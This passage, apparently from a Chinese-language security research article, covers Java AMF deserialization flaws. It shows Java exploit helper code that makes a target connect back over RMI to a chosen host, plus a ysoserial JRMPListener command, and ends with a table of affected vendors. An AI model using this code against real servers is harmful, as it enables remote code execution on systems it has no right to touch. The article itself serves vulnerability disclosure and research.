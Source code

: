 ```
java.rmi.server.ObjID objId = new java.rmi.server.ObjID();
sun.rmi.transport.tcp.TCPEndpoint endpoint = new sun.rmi.transport.tcp.TCPEndpoint(host, port);
sun.rmi.transport.LiveRef liveRef = new sun.rmi.transport.LiveRef(objId, endpoint, false);
return new sun.rmi.server.UnicastRef(liveRef);
}
public static byte[] serialize(Object data) throws IOException {
MessageBody body = new MessageBody();
body.setData(data);
ActionMessage message = new ActionMessage();
message.addBody(body);
ByteArrayOutputStream out = new ByteArrayOutputStream();
AmfMessageSerializer serializer = new AmfMessageSerializer();
serializer.initialize(SerializationContext.getSerializationContext(), out, null);
serializer.writeMessage(message);
return out.toByteArray();
}
public static void deserialize(byte[] amf) throws ClassNotFoundException, IOException {
ByteArrayInputStream in = new ByteArrayInputStream(amf);
AmfMessageDeserializer deserializer = new AmfMessageDeserializer();
deserializer.initialize(SerializationContext.getSerializationContext(), in, null);
deserializer.readMessage(new ActionMessage(), new ActionContext());
}
}
```

为了证实代码能够正常运行，我们首先设置了一个监听器，然后看一看链接是否能够成功建立。

[![](./img/85846/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01af75f34c45ece17c.png)

此时，我们成功地与客户端建立了一条通信连接，而且使用的还是[Java RMI传输协议](https://docs.oracle.com/javase/8/docs/platform/rmi/spec/rmi-protocol3.html)。

<br>

**漏洞利用**

实际上，jacob Baines早在2016年就已经将这项技术（[反序列化黑名单绕过](https://www.tenable.com/security/research/tra-2017-07)）公之于众了，但是我并不确定当时他是否知道这种技术同样还会将任意的Externalizable.readExternal对象转换为ObjectInputStream.readObject对象。除此之外，他当时还介绍了一个可以发送任意Payload的JRMP监听器：

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener ...
```



**厂商产品影响情况**
<td width="341" valign="top">Apache Software Foundation</td><td width="341" valign="top">[Affected](https://www.kb.cert.org/vuls/id/BLUU-AKVRGX)</td><td width="341" valign="top">28 Mar 2017</td><td width="341" valign="top">06 Apr 2017</td>
<td width="341" valign="top">Atlassian</td><td width="341" valign="top">[Affected](https://www.kb.cert.org/vuls/id/GWAN-AKHSWU)</td><td width="341" valign="top">–</td><td width="341" valign="top">28 Mar 2017</td>
<td width="341" valign="top">Exadel</td><td width="341" valign="top">[Unknown](https://www.kb.cert.org/vuls/id/BLUU-AKVRGK)</td><td width="341" valign="top">28 Mar 2017</td><td width="341" valign="top">28 Mar 2017</td>
<td width="341" valign="top">Granite Data Services</td><td width="341" valign="top">[Unknown](https://www.kb.cert.org/vuls/id/BLUU-AKHTCH)</td><td width="341" valign="top">16 Mar 2017</td><td width="341" valign="top">16 Mar 2017</td>
<td width="341" valign="top">Hewlett Packard Enterprise</td><td width="341" valign="top">[Unknown](https://www.kb.cert.org/vuls/id/BLUU-AKVRGU)</td><td width="341" valign="top">28 Mar 2017</td><td width="341" valign="top">28 Mar 2017</td>
<td width="341" valign="top">Midnight Coders</td><td width="341" valign="top">[Unknown](https://www.kb.cert.org/vuls/id/BLUU-AKHTCK)</td><td width="341" valign="top">16 Mar 2017</td><td width="341" valign="top">03 Apr 2017</td>
<td width="341" valign="top">Pivotal</td><td width="341" valign="top">[Unknown](https://www.kb.cert.org/vuls/id/BLUU-AKVRGM)</td><td width="341" valign="top">28 Mar 2017</td><td width="341" valign="top">28 Mar 2017</td>